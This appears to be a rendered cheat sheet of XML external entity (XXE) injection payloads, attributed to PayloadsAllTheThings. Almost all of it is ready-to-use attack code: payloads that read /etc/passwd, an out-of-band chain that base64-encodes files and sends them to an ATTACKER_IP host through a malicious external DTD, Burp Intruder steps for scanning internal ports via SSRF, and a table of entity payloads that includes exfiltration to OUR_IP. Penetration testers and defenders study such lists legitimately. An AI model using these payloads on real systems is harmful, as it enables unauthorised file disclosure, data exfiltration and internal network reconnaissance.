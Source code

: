 ## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### In-Band XXE Injection Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>

### Out-of-Band XXE Injection Example Payload:

      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
      <upload><file>&xxe;</file></upload>

### Create a payload named sample.dtd with the code below:

      <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
      <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
      %oobxxe;

### Final OOB Payload:

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
      <upload>
    <file>&exfil;</file>
      </upload>

### Server-Side Request Forgery with XXE Injection Internal Port Scanning payload:

      <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
      ]>
      <contact>
        <name>&xxe;</name>
        <email>test@test.com</email>
        <message>test</message>
      </contact>

 - 1) Send this payload to Burp Intruder

 - 2) Select the port number in the localhost URI
  
 - 3) Go to payloads -> Select payload type: Numbers
  
 - 4) Payload Settings -> From 1 to 65535
  
 - 5) Start Attack

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
